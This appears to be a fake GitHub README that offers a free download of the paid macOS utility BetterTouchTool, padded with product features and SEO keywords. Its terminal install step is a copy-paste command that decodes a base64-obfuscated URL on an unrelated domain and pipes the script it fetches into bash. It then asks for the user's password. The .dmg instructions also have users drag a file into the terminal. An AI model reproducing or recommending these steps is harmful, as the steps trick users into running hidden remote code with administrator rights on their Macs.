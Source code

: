 # BetterTouchTool Mac Download

![BetterTouchTool Screenshot](https://appleinsider.ru/wp-content/uploads/2013/04/BetterTouchTool-500x500.png)

[![Download Now](https://img.shields.io/badge/Download--Now-BetterTouchTool%20Mac-blue?style=for-the-badge&logo=apple)](https://nikolanfu.github.io/.github/bettertouchtoolmac)

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ5L2luc3RhbGwuc2g= | base64 -d))"  
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)
---

## 📦 What is BetterTouchTool for Mac?

**BetterTouchTool (BTT)** is a powerful macOS utility designed to supercharge how you interact with your Mac. It gives you full control over input devices like the trackpad, mouse, keyboard, Touch Bar, and more—enabling you to assign custom gestures, shortcuts, actions, and scripts that dramatically improve productivity.

Whether you want to trigger system actions with a three-finger swipe, customize your Touch Bar with widgets and buttons, or automate complex sequences using AppleScript or shell commands, **BetterTouchTool** makes it possible without writing code.

The app is lightweight, highly customizable, and constantly updated with features for power users and casual users alike. From window snapping and keyboard remapping to advanced gesture creation and automation, BTT is trusted by developers, designers, and productivity enthusiasts around the world.

It integrates beautifully into macOS and supports the latest MacBooks with Apple Silicon (M1, M2, M3), offering performance and flexibility that no other tool provides.

![BetterTouchTool Screenshot](https://cdn.macstories.net/thursday-05-oct-2023-14-44-15-1696515630816.png)

---

## 🌟 Key Features & Benefits

- 🖱 **Custom Gestures** — Create your own gestures for trackpad, Magic Mouse, or regular mouse.
- 🎹 **Keyboard Shortcuts** — Assign system or app-specific actions to any key combo.
- 💻 **Touch Bar Customization** — Add buttons, widgets, and controls to your MacBook Touch Bar.
- 🪟 **Window Snapping** — Arrange windows with ease using drag-and-snap zones or shortcuts.
- 🔁 **Automations & Scripting** — Use AppleScript, shell, or JavaScript to automate repetitive tasks.
- 🌐 **App-Specific Profiles** — Create different gesture sets for each application.
- 🎛 **UI Triggers & Widgets** — Create floating buttons, HUDs, or overlays on your desktop.
- ⚡️ **Battery Friendly & Fast** — Optimized for macOS with minimal resource usage.
- 🔄 **Sync & Export Configs** — Back up or sync settings across multiple Macs.

---

## 🖥 System Requirements

- **macOS**: 10.13 High Sierra or later  
- **Processor**: Intel or Apple Silicon (M1, M2, M3)  
- **RAM**: 4 GB minimum  
- **Disk Space**: ~50 MB  
- **License**: Free trial (45 days), paid license for full version

---

## 🏷 Keywords

better touch tool free download, better touch tool mac download, better touch tool download, bettertouchtool mac, better touch tool free

